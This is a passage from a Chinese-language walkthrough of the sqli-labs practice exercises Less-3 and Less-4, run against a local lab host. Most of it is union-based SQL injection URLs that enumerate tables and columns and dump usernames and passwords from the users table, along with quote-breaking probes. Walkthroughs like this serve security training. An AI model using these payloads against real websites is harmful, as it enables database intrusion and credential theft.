 ```
http://192.168.81.135/sqli/Less-3/?id=-1') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=0x7365637572697479 --+
```

![image-20211211140911003](https://gitee.com/xxb667/img/raw/master/img/image-20211211140911003.png)

#### 查看所有列信息

```
http://192.168.81.135/sqli/Less-3/?id=-1') union select 1,2,group_concat(column_name) from information_schema.columns where table_name=0x7573657273--+
```

![image-20211211141155731](https://gitee.com/xxb667/img/raw/master/img/image-20211211141155731.png)

#### 得到所有账号和密码

```
http://192.168.81.135/sqli/Less-3/?id=-1') union select 1,2,group_concat(concat_ws(0x7e,username,password)) from security.users--+
```

![image-20211211141340852](https://gitee.com/xxb667/img/raw/master/img/image-20211211141340852.png)

## Less-4--基于【")】字符型注入

配置同上

### 查看id信息

可以看出id值为

id=("1")

```
http://192.168.81.135/sqli/Less-4/?id=1--+
```

![image-20211211111340136](https://gitee.com/xxb667/img/raw/master/img/image-20211211111340136.png)

### 注入语句

```
http://192.168.81.135/sqli/Less-4/?id=1") and 1=1--+
```

正常显示

![image-20211211111623953](https://gitee.com/xxb667/img/raw/master/img/image-20211211111623953.png)

查看相关信息同上

### 举例查看

#### 查看所有列信息
